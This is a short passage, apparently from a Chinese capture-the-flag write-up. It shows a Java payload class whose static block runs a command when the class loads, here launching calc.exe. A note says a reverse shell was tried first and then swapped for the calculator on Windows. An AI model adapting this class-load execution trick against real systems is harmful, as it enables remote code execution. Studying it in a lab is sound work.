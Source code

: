 shell.java

```java
package com.ezgame.ctf;

import java.io.IOException;
//反弹shell的类
public class shell {
    static {
        try{
            Runtime.getRuntime().exec(new String[]{"calc.exe"});
        } catch (IOException e){
            e.printStackTrace();
        }
    }
}
```

把shell.java构建编译后执行exp.java

一开始/bin/bash没弹还蛮奇怪后来反应过来是windows，就改弹计算器了

![Untitled](Java%204f0ca325aad14fee945ebc69ca658159/Untitled%2013.png)
